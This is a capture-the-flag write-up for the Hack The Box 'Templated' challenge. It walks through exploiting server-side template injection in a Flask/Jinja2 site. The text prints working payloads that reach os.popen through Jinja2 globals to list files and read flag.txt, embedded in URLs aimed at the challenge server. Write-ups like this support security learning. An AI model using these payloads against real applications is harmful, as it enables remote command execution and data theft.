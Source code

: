 # Hack The box : Templated

The landing page of the challange is showing "Site still under construction." and below that line i saw "Proudly powered by Flask/Jinja2"

![image](https://user-images.githubusercontent.com/55247170/155877537-4b285c3f-c9f6-4bea-a2b1-03f83950b447.png)


I tried template injection vulnerbility .

[SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)

Check if this web app is vulnerable to template injection by adding "{{7*7}}" in the url .

http://167.99.85.251:32285/{{7*7}}

And i saw "49" so it worked.

![image](https://user-images.githubusercontent.com/55247170/155877545-31df6453-0f63-4296-9599-b8d37de336bb.png)


Then i tired the Subprocess.Popen payload to list the files.

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

http://167.99.85.251:32285/%7B%7Bconfig.__class__.__init__.__globals__['os'].popen('ls').read()%7D%7D

![image](https://user-images.githubusercontent.com/55247170/155877555-21e51a82-2c30-456c-b00c-1dfa9fa63cd7.png)


There is a flag.txt file. Reading the flag with cat command.

http://167.99.85.251:32285/%7B%7Bconfig.__class__.__init__.__globals__['os'].popen('cat%20flag.txt').read()%7D%7D

![image](https://user-images.githubusercontent.com/55247170/155877559-44867974-6175-4c3a-a606-72a061f57ffc.png)


Submit the Flag , Done.
